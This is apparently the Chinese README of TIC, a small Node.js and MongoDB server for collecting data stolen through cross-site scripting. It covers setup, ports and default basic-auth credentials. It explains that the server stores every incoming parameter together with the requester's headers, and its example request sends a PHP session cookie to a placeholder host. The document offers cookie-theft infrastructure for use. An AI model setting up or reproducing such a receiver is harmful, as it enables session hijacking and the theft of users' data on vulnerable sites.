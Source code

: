 # TIC

TIC,一个简单的XSS服务端. 0x_Jin
  
#### 所需依赖

1. iojs or node.js
2. mongodb

#### 操作流程

1.安装mongodb后需要最好开启mongodb的ip绑定,绑定到127.0.0.1
2.安装完后启动mongodb 使用mongo命令来管理mongodb. 添加数据库账户.   
```
use TIC  
db.addUser('TIC','ThisIsPass')  
如果你不想使用这个账号密码,可以更改为其他的.但是请同时修改TIC.js中的这段代码.  
mongoose.connect('mongodb://TIC:ThisIsTIC@localhost/TIC');
```

3.进入TIC目录,启动TIC.js (iojs TIC.js) , 程序会运行在本地的8080端口
```
如果需要修改端口,可以找到下面这段代码,把8080修改成你想要变更的端口.  
http.createServer(server).listen(8080);
```

4.本程序提供了结果查看页,路径为: /view , 为了安全性加上了基础认证. 默认基础认证 username:0x_Jin , password:wooyun
```
你可以在TIC.js中找到下面这段代码修改为你想要变更的账号密码.
if (!credentials || credentials.name !== '0x_Jin' || credentials.pass !== 'wooyun')
```

5.如果你想自己写一个结果查看页,你可以直接从 /receiver 来获得数据  
6.关于结果如何插入,除了.js .css 以及/view /receiver这些路径外的参数都会接受并存入数据库
```
example:http://xxxx:8080/?url=baidu.com&cookie=PHPSESSION%3Dxxxxxxx&ip=127.0.0.1  
除了GET外,POST也可以.
```

7.结果分为两大部分,第一部分为header,第二部分为request
```
header中存储的内容是程序获得到的请求者的数据,user-agent referer 源IP  
request中存储的内容为请求过来的数据 比如页面地址,cookie,ip等.
```

